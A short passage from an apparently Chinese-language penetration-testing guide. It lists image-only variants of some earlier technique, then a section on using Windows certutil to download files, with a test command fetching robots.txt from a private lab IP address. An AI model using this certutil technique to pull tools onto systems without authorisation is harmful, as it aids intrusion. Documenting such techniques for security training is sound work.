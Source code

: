 ![&#x533F;&#x540D;&#x7248;](../../.gitbook/assets/image%20%28424%29.png)

![&#x5BC6;&#x7801;&#x7248;](../../.gitbook/assets/image%20%28413%29.png)

![&#x6700;&#x77ED;&#x8BED;&#x53E5;&#x7248;](../../.gitbook/assets/image%20%28417%29.png)

## 4、certutil下载


该工具是证书服务的组件，用于转储和显示证书颁发机构配置信息，配置证书服务，备份和还原CA组件以及验证证书，密钥对和证书链。 经过测试该组件在Win2003、2008、7、10里可用，**XP下没有**

**1、下载测试**

```text
certutil.exe -urlcache -split -f http://172.16.175.1/robots.txt
```

![](../../.gitbook/assets/image%20%28400%29.png)
